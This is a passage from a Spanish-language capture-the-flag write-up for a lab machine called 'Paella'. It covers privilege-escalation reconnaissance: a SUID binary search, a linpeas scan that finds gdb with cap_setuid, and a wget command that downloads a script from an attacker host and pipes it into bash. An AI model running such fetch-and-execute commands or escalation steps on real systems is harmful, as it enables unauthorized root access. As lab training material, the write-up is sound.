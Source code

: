 Podríamos revisar si hay algún binario con **permisos SUID** del que nos podamos aprovechar:
```bash
paella@TheHackersLabs-Paella:~$ find / -perm -4000 2>/dev/null
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/mount
/usr/bin/su
/usr/bin/sudo
/usr/bin/gpasswd
/usr/bin/umount
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
```
Como tal, no hay alguno que nos sirva.

Entonces, usaremos **linpeas.sh** para ver si encuentra alguna cosilla por ahí.

Puedes descargarlo aquí:
* <a href="https://github.com/peass-ng/PEASS-ng/tree/master" target="_blank">Repositorio de peass-ng: PEASS-ng</a>

Bien, podemos descargarlo en la máquina víctima, pero en mi caso, lo voy a ejecutar de manera remota.

Primero, levanta un servidor con **Python3**:
```bash
python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Desde la máquina víctima, utilizamos **wget** para ejecutar el **linpeas.sh** de manera remota:
```bash
paella@TheHackersLabs-Paella:~$ wget -qO- http://Tu_IP/linpeas.sh | bash
```

Revisando el resultado, nos muestra una vía potencial para escalar privilegios:
```bash
╔══════════╣ Capabilities
╚ https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/index.html#capabilities
══╣ Current shell capabilities
CapInh:  0x0000000000000000=
...
...
Files with capabilities (limited to 50):
/usr/bin/gdb = cap_setuid+ep
```
Parece que el **binario gdb** tiene capabilities que podemos aprovechar para escalar privilegios.

* **cap_setuid**: Esta capability permite al proceso cambiar su propio **UID** (usuario efectivo), como si llamara a la **syscall setuid()** sin restricciones.
* **Effective (e)**: La capability está activa en tiempo de ejecución.
* **Permitted (p)**: La capability está permitida.
